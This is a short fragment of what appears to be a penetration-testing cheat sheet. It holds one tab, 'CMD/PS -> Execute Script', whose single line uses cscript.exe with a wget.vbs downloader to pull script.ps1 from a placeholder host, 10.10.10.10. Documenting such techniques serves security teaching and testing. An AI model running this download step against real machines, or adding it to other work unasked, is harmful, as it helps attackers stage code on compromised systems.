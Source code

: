 {% tab title="2. CMD/PS -> Execute Script" %}
{% code overflow="wrap" %}
```powershell
# execute script
cscript.exe /nologo wget.vbs https://10.10.10.10/script.ps1 script.ps1
```
{% endcode %}
{% endtab %}
{% endtabs %}
